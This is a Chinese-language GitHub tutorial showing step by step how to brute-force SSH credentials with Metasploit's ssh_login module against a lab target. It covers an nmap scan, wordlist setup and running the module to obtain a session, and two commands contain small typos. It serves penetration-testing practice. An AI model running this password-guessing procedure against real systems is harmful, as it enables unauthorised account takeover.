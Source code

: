 # brute-force SSH login
使用Metasploit暴力猜測ssh的登入帳密。

## **環境&工具**
* 一台Kali Linux
* 一台有ssh服務的靶機
* 一個字典檔

## **破解流程**
* step1：針對目標機器做掃描，掃描這台主機有開那些服務
  * 這邊使用nmap這套工具做掃描，檢測目標主機是否在線上、port開放的情況
  * nmap其他相關指令請參考https://zh.wikipedia.org/zh-tw/Nmap
    > ```shell
    > namp -sV xxx.xxx.xxx.xxx
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/1.png)
* step2：開啟Metasploit
  > ```shell
  > msfconsole
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-1.png)
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/2-2.png)
* step3：開啟Metasploit這套工具尋找模組腳本
  * 這邊使用模組名稱是`auxiliary/scanner/ssh/ssh_login`
    > ```shell
    > search ssh_login
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/3.png)
* step4：查看使用的模組腳本需要設定的參數
  * 這邊四個重要的參數必須設定，`目標主機IP`、`目標主機port號`、`使用者帳號`、`使用者密碼`
    > ```shell
    > option
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/4.png)
* step5：設定目標主機IP
  > ```shell
  > set rhost xxx.xxx.xxx.xxx
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/5.png)  
* step6：目標主機port號
  > ```shell
  > set rport xx
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/6.png)
* step7：設定使用者帳號密碼
  * 設定使用者帳號及使用者密碼的方式有三種，`利用username及password的字典檔`、`分別給username及password的字典檔`、`直接設定username及password`

  * 利用username及password的字典檔  
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/7.png)   
    > ```shell
    > set userpass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/8.png)    

  * 分別給username及password的字典檔 
    > 檔案格式為
    > 
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/9.png)   
    > ```shell
    > set user_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/10.png)   
    > ```shell
    > set pass_file [檔案路徑]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/11.png)     
  
  * 直接設定username及password  
    > ```shell
    > set username [名稱]
    > set password [密碼]
    > ```
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/12.png)   

  ```
  設定使用者帳號密碼，可使用字典檔也可自行輸入，可搭配自行輸入及字典檔的組合，更快速的找到登入的帳密。
  ```

* step8：執行暴力猜測ssh的登入帳密
  > ```shell
  > exploit
  > ```
  > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/13.png)
  * 執行成功後會有一個session存在著
    > ![image](https://github.com/WanShannn/BruteForce-SSH-Login/blob/main/result/14.png)

## **References**
* https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
